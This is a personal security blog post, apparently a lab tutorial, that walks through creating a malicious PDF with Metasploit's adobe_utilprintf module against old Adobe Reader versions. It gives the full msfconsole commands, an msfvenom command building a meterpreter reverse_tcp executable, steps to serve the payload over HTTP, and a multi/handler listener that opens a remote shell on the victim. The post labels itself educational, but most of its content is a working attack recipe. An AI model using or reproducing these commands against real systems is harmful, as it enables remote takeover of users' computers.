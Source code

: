 ```yaml
---
title: "Create malicious PDF"
date: "2020-10-02"
layout: single
tags:
- malicious
categories:
- Blog-post
---
```


Malicious PDF is one of the way to hack users because this document format and Adobe Reader (PDF reader) are used by almost everyone.

In this article, I will show you how to generate our malicious PDF using Metasploit. We gonna use an old exploit for a vulnerable Adobe Reader version.

**This article is for research and education purpose only**. Do with your own risk!

**The exploit is targeting a specific version of Adobe Reader** which is **vulnerable Adobe Reader version** (less than 8.1.2). So, you need to install this version first on your Windows XP target machine as mention in Metasploit module.

## 1. Generate malicious pdf
We gonna use `adobe_utilprintf` vulnerability

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/1.PNG)

    use exploit/windows/fileformat/adobe_utilprintf
    set filename malicious.pdf
    set payload windows/exec
    set cmd malware.exe
    exploit

## 2. Create reverse shell executable
Copy the malicious pdf to a directory that we gonna setup our HTTP server.
And create a reverse shell executable using msvenom.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/2.PNG)

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.83.128 LPORT=1111 -f exe > malware.exe

Note:
Change LHOST with your IP

## 3. Download executable and PDF  in the target machine

You can use this python line to step up local HTTP server.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/3.PNG)

    python -m SimpleHTTPServer

Rename `evil.exe` to `malware.exe` (if you name the executable as evil.exe during generating reverse shell executable using msfvenom)

Download both of the files, and copy `malware.exe` to `System32` folder

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/4.PNG)

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/5.PNG)

## 4. Listen to reverse shell

Listen to reverse shell and wait for the execution of the file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/6.PNG)

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.83.128
    set lport 1111
    run

## 5. We're in 🎉 
After we double click the PDF, the exploit will run. So, our classic exploit is successful!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/7.PNG)

